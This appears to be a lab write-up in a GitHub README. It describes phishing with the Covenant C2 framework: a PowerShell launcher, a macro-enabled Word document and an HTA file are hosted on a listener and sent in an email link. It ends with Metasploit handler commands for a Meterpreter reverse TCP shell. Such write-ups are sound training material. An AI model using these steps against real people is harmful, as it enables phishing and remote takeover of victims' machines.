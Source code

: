 - **Hosting the PowerShell Script**:
  - In the Host tab, typed `/rev.ps1` and clicked the Host button.
  - Copied the EncodedLauncher script for later use.

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/dd76e5e2-9fe9-4006-a764-02a5d95480f5)


- **Preparing the Phishing Document**:
  - Located the 'benefits' document and moved it to the file share.
  - Enabled content on the word document 'benefits' to activate the payload.

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/c40a84e4-0945-4a59-9bb7-7b9ea2ed0633)
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/ec4c7c3d-96ec-40d0-8579-ca079c0ddfe8)

- **Hosting the Document on a Listener**:
  - In Covenant, clicked on the HTTP listener and went to the Hosted Files tab.
  - Created an entry "/Benefits.doc" and selected the benefits.doc file from the desktop.
  - Checked on a web browser to ensure the document was correctly hosted and downloadable.

localhost./Benefits.doc

- **Completing the Phishing Email**:
  - Embedded the hyperlink to the hosted document within a RoundCube phishing email.
  - Upon clicking the link, no immediate action occurred within the document.
  - However, a successful shell opening was observed in Covenant, indicating the effectiveness of the phishing attack.

In this exercise, I successfully merged the elements of Covenant’s powerful capabilities with tactical phishing strategies, demonstrating a critical aspect of cybersecurity operations.


## HTA Extension File or HTML Application for Phishing Emails
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/ad048358-9ac7-43e4-8449-9171dcd9ad85)


### Creating HTA for Phishing
- In Covenant, under Launchers and then Powershell:
  - Selected HTTP Listener with Net40.
  - Generated the required code.
  - Pasted the generated code into the "Powershell command here" section of an HTA file, named it `benefits.hta`.
- Hosted `Benefits.hta` on the HTTP Listener and verified its accessibility through a browser.

## HTA Email Phishing with Metasploit

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/f5f7fcb6-37f5-48ad-94ff-e47d76f7709e)

### Metasploit Configuration
- On Metasploit, executed the following commands:
  - `use exploit/multi/handler`
  - `set payload windows/x64/meterpreter/reverse_tcp`
  - `set lhost eth0`
  - `set lport 443`
  - `exploit -j`
